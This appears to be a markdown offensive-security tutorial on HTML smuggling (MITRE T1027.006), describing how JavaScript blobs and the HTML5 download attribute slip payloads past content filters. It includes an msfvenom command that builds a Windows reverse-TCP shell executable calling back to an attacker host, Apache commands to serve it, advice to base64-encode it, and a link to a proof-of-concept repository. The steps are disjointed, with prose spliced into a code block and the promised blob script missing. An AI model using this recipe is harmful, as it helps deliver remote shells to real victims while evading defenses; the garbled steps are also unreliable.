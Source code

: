 ```yaml
---
title: HTML Smuggling
category: Defense Evasion
tags: [HTML Smuggling (T1027.006), Obfuscated Files or Information (T1027), Delivery]
---
```

## HTML-Smuggling
HTML Smuggling is an evasive payload delivery method that helps an attacker smuggle payload past content filters and firewalls by hiding malicious payloads inside of seemingly benign HTML files. This is possible by using JavaScript blobs and the HTML5 download attribute used with the anchor tag. This article demonstrates the methodology and two such readily available scripts that perform HTML smuggling.

 - MITRE TACTIC: Defense Evasion (TA0005)
 - MITRE Technique ID: Obfuscated Files or Information (T1027) 
 - MITRE SUB ID: HTML Smuggling (T1027.006)
 
Let’s start with the basics. In HTML5, if we want a user to download a file hosted on our server, we can do that by using the anchor tag.
```css
    <a href=”/payload.exe” download=”payload.exe”>Download Here</a>
```
For that, let’s first create a payload using msfvenom and copy it in our apache webroot directory.
```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.89 LPORT=1234 -f exe > payload.exe
```
```bash
    cp payload.exe /var/www/html
Then we copy this into the apache webroot and start the apache server

    cp index.html /var/www/html
    
    cd /var/www/html
    
    service apache2 start

```
But in order to supply this into our blob as a buffer, we need a single string with no enters. This fixing be done manually by copying this output in notepad and removing enters or you could follow our alternate approach by going to ***[base64.guru](https://base64.guru/)*** website.
Here, upload your payload and the converted base64 shall be given in a single line.

## GitHub Repoitory for POC

https://github.com/ashizZz/HTML-Smuggling